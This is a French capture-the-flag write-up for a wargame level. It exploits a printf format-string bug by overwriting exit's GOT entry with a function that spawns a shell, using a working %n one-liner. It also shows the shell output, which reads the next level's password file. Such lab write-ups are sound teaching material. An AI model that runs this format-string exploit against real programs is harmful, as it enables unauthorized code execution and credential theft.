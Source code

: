 #### Etape 1: Décompilation / Compréhension du programme.

Le programme appelle une fonction *n()*
Celle-ci contient un fgets, et un printf avec lequel elle appel une variable char[520] et pour finir une fonction exit(1).
Nous voyons aussi dans ce binaire une autre fonction o() qui elle appel notre sytem('/bin/sh').

#### Etape 2: Identification des vulnérabilités

Notre probleme ici est que nous n'avons pas de variable globale a modifier pour obtenir le flag et nous exitons après le printf et donc pas de retour.
Sinon on répère les mêmes vulnérabilités que dans le précédent level.

#### Etape 3 : Plan d'attaque

Notre plan d'attaque va donc être de modifier l'adresse de exit de la fonction *n()* pour qu'elle pointe sur la fonction *o()* grâce au %n qui modifie la variable, elle devient le nombre de caractères écris auparavant.

#### Etape 4 : Récolte d'informations

Il va donc falloir trouver l'adresse de la fonction (nommée *exit* dans le binaire). Sur Ghidra nous voyons plusieurs adresse possible :
- 0x080484ff qui est l'adresse de la fonction exit dans la fonction n().(mais celle ci est appelée par la fonction exit)
- 0x0804a014 qui est une adresse intermediare de la fonction exit qui appel.
- 0x080483d0 qui est la fonction qui appel exit 
- 0x08049838 qui est l'adresse de la fonction exit dans la library de fonction.

Notre idee donc et de modifier la valeur de base de exit pour qu'elle pointe sur la fonction o() donc nous utilisons l'adresse 0x08049838.

Il faut ensuite trouver a quel moment dans la stack la valeur que nous écrivons est appelée.

```bash
python -c 'print "aaaa" + "%x "*4' | ./level5
aaaa200 b7fd1ac0 b7ff37d0 61616161
```

Notre valeur est donc la 4eme adresse.

l'adresse de la fonction o() est 0x080484a4 et en decimal est 134513828.

Nous devrons donc écrire 134513828 caractére a la 4e adresse, Il existe une syntaxe comme dans grep pour passer directement a la 4e adresse : 4$.

l'adress de exit est 0x08049838 en little endian cela donne \x38\x98\x04\x08.

#### Etape 5 : Execution

```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"'; cat -) | ./level5
[...] ca prend pas mal de temps [...] mais a la fin nous arrivons dans un bash [...]
                              200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

